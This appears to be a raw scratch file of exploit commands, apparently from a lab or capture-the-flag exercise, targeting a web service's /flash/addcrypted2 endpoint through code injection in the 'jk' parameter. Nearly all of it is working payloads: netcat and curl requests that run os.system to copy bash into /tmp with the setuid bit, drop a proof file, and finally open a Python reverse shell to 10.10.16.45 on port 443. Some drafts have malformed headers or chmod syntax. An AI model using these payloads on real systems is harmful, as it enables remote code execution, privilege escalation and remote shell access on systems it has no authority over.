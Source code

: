 
echo -e "GET / HTTP/1.1\\r\\n\\r\\n" | nc localhost 80

echo -e "POST /flash/addcrypted2 HTTP/1.1\r\nHost: 127.0.0.1:8000\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 143\r\njk=pyimport%20os;os.system("cp /bin/bash /tmp/fixit42; chmod +u=sx /tmp/fixit42");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa\r\n\r\n"  | nc localhost 8000

echo -e "POST /flash/addcrypted2 HTTP/1.1\r\nHost: 127.0.0.1:8000\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 143\r\njk=pyimport%20os;os.system("cp /bin/bash /tmp/fixit42");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa\r\n\r\n"  | nc localhost 8000

; chmod +u=sx /tmp/fixit42

echo -e "POST /flash/addcrypted2 HTTP/1.1\r\nHost: 127.0.0.1:8000\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nContent-Length: 143\r\njk=pyimport%20os;os.system("cp%20/bin/bash%20/tmp/fixit42");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa\r\n\r\n"  | nc localhost 8000



POST /flash/addcrypted2 HTTP/1.1\r\n
Host: 127.0.0.1:8000\r\n
Content-Type: application/x-www-form-urlencoded\r\n
\r\n
jk=pyimport%20os;os.system("touch%20/tmp/pwnd");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa\r\n\r\n

POST /flash/addcrypted2 HTTP/1.1\r\nHost: 127.0.0.1:8000\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\njk=pyimport%20os;os.system("touch%20/tmp/pwnd");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa\r\n\r\n

echo -e 'POST /flash/addcrypted2 HTTP/1.1\r\nHost: 127.0.0.1:8000\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\njk=pyimport%20os;os.system("touch%20/tmp/pwnd");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa\r\n\r\n' | nc localhost 8000

`curl "http://127.0.0.1:8000/flash/addcrypted2" -X POST -d 'jk=pyimport%20os;os.system("cp /bin/bash /tmp/bash %26%26 chmod u=s /tmp/bash");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'`

```
curl "http://127.0.0.1:8000/flash/addcrypted2" -X POST -d 'jk=pyimport%20os;os.system("python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28\%2210.10.16.45\%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28\%22bash\%22%29%27");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'
```



